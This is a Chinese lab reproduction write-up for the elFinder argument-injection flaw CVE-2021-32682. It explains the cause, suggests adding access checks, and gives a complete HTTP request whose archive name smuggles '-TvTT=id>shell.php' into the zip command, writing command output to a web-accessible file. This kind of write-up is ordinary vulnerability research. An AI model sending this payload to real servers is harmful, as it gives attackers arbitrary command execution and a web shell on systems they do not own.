


# elFinder ZIP 参数与任意命令注入（CVE-2021-32682）

> 漏洞说明

elFinder是一个基于PHP、Jquery的开源文件管理系统。

在elFinder 2.1.48及以前的版本中，存在一处参数注入漏洞。攻击者可以利用这个漏洞在目标服务器上执行任意命令，即使是最小化安装的elFinder。

这个漏洞的原因除了参数注入外，还有默认情况下的未授权访问，因此我们可以对elFinder增加权限校验，避免任意用户操作服务器上的文件，进而避免被执行任意命令。


> 前提条件


> 利用工具


> 漏洞复现

启动环境，访问http://192.168.40.77:8080/，新建普通文本文件1.txt


打包成压缩文件2.zip



开启bp抓包，抓取2.zip压缩打包3.zip请求包，修改请求包，将id输入到shell.php文件

```http
GET http://192.168.40.77:8080/php/connector.minimal.php?cmd=archive&name=-TvTT=id>shell.php%20%23%203.zip&target=l1_Lw&targets%5B%5D=l1_Mi56aXA&type=application%2Fzip&reqid=18572a39b101ef HTTP/1.1
Host: 192.168.40.77:8080
Accept: application/json, text/javascript, */*; q=0.01
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.0.0 Safari/537.36
X-Requested-With: XMLHttpRequest
Referer: http://192.168.40.77:8080/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=0bcfdc58fc7e29a946e17cdf3deaa598
Connection: close

```

执行结果报错，但实际上命令已成功执行


